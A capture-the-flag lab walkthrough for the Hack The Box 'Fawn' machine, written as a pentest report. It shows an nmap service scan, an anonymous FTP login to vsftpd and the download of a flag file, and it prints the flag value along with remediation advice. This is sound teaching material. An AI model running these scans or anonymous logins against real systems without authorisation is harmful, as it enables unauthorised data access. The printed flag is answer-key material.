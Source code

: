# HTB Starting Point Lab Walkthrough: Fawn (Unix Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit an FTP service on the target machine to retrieve a flag, simulating basic file transfer protocol reconnaissance.
- **Target IP**: 10.129.51.104
- **Key Findings**: Identified an FTP server (vsftpd 3.0.3) allowing anonymous login, which permitted access to a directory containing a sensitive file (`flag.txt`). No authentication was required.
- **Impact**: In a real-world scenario, anonymous FTP access could lead to unauthorized data exposure, potentially compromising sensitive information.
- **Recommendations**: Disable anonymous FTP logins, restrict access to authorized users, and regularly audit FTP configurations.
- **Completion Date**: July 3, 2025
- **Tools Used**: Nmap, ftp (on Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Fawn." The scope was limited to port scanning, FTP service enumeration, and file access on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using default Kali tools. Assumptions: Target is a Unix machine running an FTP service.

## Findings

### Finding 1: FTP Service Identification

- **Description**: FTP (File Transfer Protocol) is a protocol for transferring files over a network. It operates on port 21, with a secure variant called SFTP. A scan identified vsftpd 3.0.3 running on the target.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a targeted port scan with version detection using Nmap:
        
        ```bash
        nmap -sS -sV -p 21 10.129.51.104
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:19 EDT
        Nmap scan report for 10.129.51.104
        Host is up (0.025s latency).
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        Service Info: OS: Unix
        ```
        
- **Impact**: Confirms FTP is active and identifies the server version, enabling further enumeration.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Anonymous FTP Login

- **Description**: The FTP server allows anonymous login with no password, granting access to the server’s file system. A successful login returns response code 230.
- **Severity**: Medium (unauthenticated access to FTP).
- **Steps to Reproduce**:
    1. Connect to the FTP server using the `anonymous` username:
        
        ```bash
        ftp 10.129.51.104
        ```
        
        Output:
        
        ```bash
        Connected to 10.129.51.104.
        220 (vsFTPd 3.0.3)
        Name (10.129.51.104:reaper): anonymous
        331 Please specify the password.
        Password: 
        230 Login successful.
        Remote system type is UNIX.
        Using binary mode to transfer files.
        ftp> 
        ```
        
- **Impact**: Unauthenticated access could allow malicious users to browse and retrieve files, risking data exposure.
- **Evidence**: FTP login output above.
- **Remediation**: Disable anonymous login in vsftpd configuration; require strong credentials for all users.

### Finding 3: File Retrieval from FTP Server

- **Description**: After logging in anonymously, enumerated directories to locate and download a sensitive file (`flag.txt`) using the `get` command. Alternative command `ls` (instead of `dir`) confirmed file presence.
- **Severity**: High (successful data exfiltration).
- **Steps to Reproduce**:
    1. List files on the FTP server:
        
        ```bash
        ftp> ls
        ```
        
        Output:
        
        ```bash
        229 Entering Extended Passive Mode (|||60252|)
        150 Here comes the directory listing.
        -rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
        226 Directory send OK.
        ```
        
    2. Download the target file:
        
        ```bash
        ftp> get flag.txt
        ```
        
        Output:
        
        ```bash
        local: flag.txt remote: flag.txt
        229 Entering Extended Passive Mode (|||34145|)
        150 Opening BINARY mode data connection for flag.txt (32 bytes).
        100% |***********************************|    32       30.54 KiB/s    00:00 ETA
        226 Transfer complete.
        32 bytes received in 00:00 (1.17 KiB/s)
        ftp> quit
        ```
        
    3. Verify locally:
        
        ```bash
        ls
        flag.txt
        cat flag.txt
        035db21c881520061c53e0536e44f815
        ```
        
- **Impact**: Demonstrates full read access to sensitive files, equivalent to a data breach in production.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove publicly accessible files from FTP directories; implement access controls and file permissions.

## Recommendations

- Disable anonymous FTP access in vsftpd configuration (e.g., set `anonymous_enable=NO`).
- Restrict FTP to secure protocols like SFTP to prevent unencrypted data transfers.
- Regularly scan for open FTP services and misconfigurations using tools like Nmap or ftp-anon.nse.
- For labs like this, practice enumerating FTP with tools like Metasploit’s ftp_login module for deeper analysis.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)